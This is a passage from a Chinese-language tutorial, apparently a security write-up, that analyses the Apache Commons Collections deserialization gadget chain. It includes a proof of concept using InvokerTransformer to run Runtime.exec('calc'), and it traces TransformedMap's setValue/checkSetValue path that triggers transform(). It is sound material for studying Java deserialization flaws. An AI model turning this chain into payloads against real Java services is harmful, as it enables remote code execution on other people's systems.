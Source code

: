 可以看到该该方法中采用了反射的方法进行函数调用，Input参数为要进行反射的对象\(反射机制就是可以把一个类,类的成员\(函数,属性\),当成一个对象来操作,也就是说,类,类的成员,我们在运行的时候还可以动态地去操作他们\)，`iMethodName`，`iParamTypes`为调用的方法名称以及该方法的参数类型，`iArgs`为对应方法的参数，在`invokeTransformer`这个类的构造函数中我们可以发现，这三个参数均为可控参数。这里我们需要传入三个参数：方法名，参数类型，参数值。这样就可以调用对象中的任意函数了

尝试使用`invokeTransformer`来执行命令。

```java
import org.apache.commons.collections.functors.InvokerTransformer;

public class InvokerTransformerTest
{
    public static void main(String[] args){
       InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{new String("calc")});
        invokerTransformer.transform(Runtime.getRuntime());

    }
}
```

接下来得寻找会自动调用`InvokerTransformer`类中的`transform()`方法，构造代码执行。明显调用`transform()`方法有以下两个类：

* TransformedMap
* LazyMap

### **TransformedMap**

Apache Commons Collections 中实现了类`TransformedMap`，用来对`Map`进行某种变换。只要调用decorate\(\)函数，传入key和value的变换函数Transformer，即可从任意Map对象生成相应的TransformedMap，decorate\(\)函数如下

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {  
    return new TransformedMap(map, keyTransformer, valueTransformer);
}
```

* 其中，**Transformer参数是定义如何变换的函数**。
* Map中的任意项的Key或者Value被修改，相应的Transformer\(keyTransformer或者valueTransformer\)的`transform`方法就会被调用。

`TransformedMap`实现了Map接口，并且其中有个`setValue`方法，每当调用map的`setValue`方法时，该方法将会被调用。

`TransformedMap`父类`AbstractInputCheckedMapDecorator`类中有对setValue的重写:

```java
public Object setValue(Object value) {
        value = parent.checkSetValue(value);
        return entry.setValue(value);
}
```

跟进`checkSetValue`，此处会调用`transform`方法。

```java
protected Object checkSetValue(Object value) {
    return this.valueTransformer.transform(value);
}
```
